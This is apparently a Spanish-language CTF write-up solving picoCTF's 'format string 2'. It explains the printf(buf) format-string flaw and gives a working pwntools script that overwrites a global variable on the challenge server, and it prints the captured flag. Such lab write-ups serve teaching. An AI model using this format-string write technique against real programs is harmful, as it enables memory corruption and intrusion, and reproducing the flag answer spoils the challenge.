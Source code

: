 # format string 2
![Descripcion del CTF](img/description.png)

## Descripción
This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!  
Download the binary [here](https://artifacts.picoctf.net/c_rhea/13/vuln).  
Download the source [here](https://artifacts.picoctf.net/c_rhea/13/vuln.c).  
Additional details will be available after launching your challenge instance.

## Resolución
En este caso, tenemos tres variables en el stack:

```c
int sus = 0x21737573;
char buf[1024];
char flag[64];
```

Siendo la primera una variable global y el resto variables locales. Para que el programa imprima la flag, deberemos hacer que se cumpla la siguiente condición:

```c
if (sus == 0x67616c66)
```

Si nos llevamos el valor a [Cyberchef](https://cyberchef.org/) veremos que el valor es 'flag' en little endian:

![Cybercheff](img/1.png)

Para alterar su valor, tendremos que usar dos vulnerabilidades:
1. Buffer Overflow en 'scanf'
```c
scanf("%1024s", buf)
```

2. Formateo inseguro en 'printf'
```c
printf(buf);
```

Para resolver este CTF, primero tenemos que ver en qué dirección de memoria se encuentra la variable que queremos modificar:

```bash
objdump -D ./vuln | grep sus
```

![Consola](img/2.png)

Con esto, sabemos que la variable a modificar está en la dirección '0x404060'.

Entonces, creamos un script de python con la siguiente estructura:

```python
from pwn import *

context.binary = ELF('vuln')
PORT = 51026
p = remote('rhea.picoctf.net', PORT)

def exec_fmt(payload):
    p = remote('rhea.picoctf.net', PORT)
    p.sendline(payload)
    return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

payload = fmtstr_payload(offset, {0x404060: 0x67616c66})

p.sendline(payload)

print(p.recvall())
```

Este script se basa en la documentación de [pwntools](https://docs.pwntools.com/en/stable/fmtstr.html). Para ejecutarlo tenemos que tenerlo en la misma carpeta que el archivo vuln, esto se hace con 'cd' en el terminal de Visual Studio Code. Él sólo se encargará de buscar la dirección de memoria y sustituirla por el valor que le hemos proporcionado:

![Consola](img/3.png)

Obteniendo así la flag: 'picoCTF{f0rm47_57r?_f0rm47_m3m_e371fb20}',
